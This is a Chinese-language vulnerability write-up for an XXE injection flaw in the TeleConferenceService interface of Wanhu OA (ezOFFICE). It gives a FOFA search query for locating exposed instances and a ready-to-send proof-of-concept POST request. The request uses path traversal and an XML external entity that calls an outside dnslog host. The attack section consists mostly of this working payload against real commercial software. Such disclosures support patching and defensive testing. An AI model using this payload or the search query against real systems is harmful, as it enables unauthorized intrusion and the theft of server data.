 # 

# 万户OA TeleConferenceService XXE注入漏洞

## 漏洞描述

万户OA TeleConferenceService接口存在XXE注入漏洞，攻击者通过漏洞可以继续XXE注入获取服务器敏感信息

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![1](./images/202209131048922.png)

验证POC

```
POST /defaultroot/iWebOfficeSign/OfficeServer.jsp/../../TeleConferenceService

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://fep6kf.dnslog.cn" >]>        
<value>&xxe;</value>
```

![2](./images/202209131049806.png)

